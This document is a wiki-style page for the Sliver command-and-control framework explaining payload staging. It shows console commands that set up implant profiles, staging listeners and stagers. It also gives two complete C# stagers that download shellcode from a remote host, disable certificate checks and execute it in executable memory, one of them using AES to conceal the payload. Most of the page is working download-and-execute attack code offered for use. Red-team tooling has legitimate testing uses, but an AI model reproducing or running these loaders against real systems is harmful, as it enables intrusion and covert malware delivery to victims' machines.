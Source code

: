 __Important:__ You must have MinGW installed on your Sliver server to get some staged (e.g., Windows DLLs) payloads to work.

## Overview

As payloads can be pretty big (around 10MB), you may sometime require the use of stagers to execute your implant on a target system.

Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example

Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `profile generate` command.
The following command creates a new profile that we will use for our staging listener:

```
sliver > profile new --profile-name win-shellcode --mtls 192.168.122.1 --skip-symbols --format shellcode

[*] Saved new profile win-shellcode

sliver > profiles 

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   strings only  
```

We can now create a staging listener and link it to the profile:

```
sliver > stage-listener --url tcp://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   TCP   tcp       1234  
2   mtls  tcp       8888  
```

Sliver staging listeners only accept `tcp://` and `http://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for `PORT`, an error will be thrown out.

We can now generate a stager using the `generate stager` command:

```
sliver > generate stager --lhost 192.168.122.1 --lport 1234 --save /tmp

[*] Sliver stager saved to: /tmp/CIRCULAR_BRA
```

By default, the staging protocol used is TCP. The `--protocol` flag can be used to specify either `tcp` or `http` as the staging protocol.
The generated shellcode can now be used on the target system to start a new Sliver session.

## Custom stagers

One thing to consider while writing or using a custom stager, especially for the HTTP protocol, is that the Sliver server will only serve stage 2 payloads on specifically defined URLs. Indeed, since the HTTP staging listener is reusing the regular HTTP listener, it follows the same [procedural HTTP protocol](https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2#procedural-http-c2).
The extension used to retrieve a stage 2 payload is `.woff`.

As a result, if you want to implement your own stager to fetch a stage 2 payload via HTTP, you need to query a URL that looks like this: `http://SLIVER-SERVER:STAGING-PORT/whatever.woff`.

Here is a C# example of a custom HTTP stager:

```csharp
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace SliverStager
{
    public class Stager
    {
        private static string url = "http://a.bc/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```


## Encrypted Stage Example 


`stage-listener --url http://192.168.0.52:80 --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

If aes-encrypt-iv is not set it defaults to `0000000000000000`. After the stage generation is completed AES key and iv are displayed.

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "http://192.168.0.52/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            shellcode = Decrypt(shellcode, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```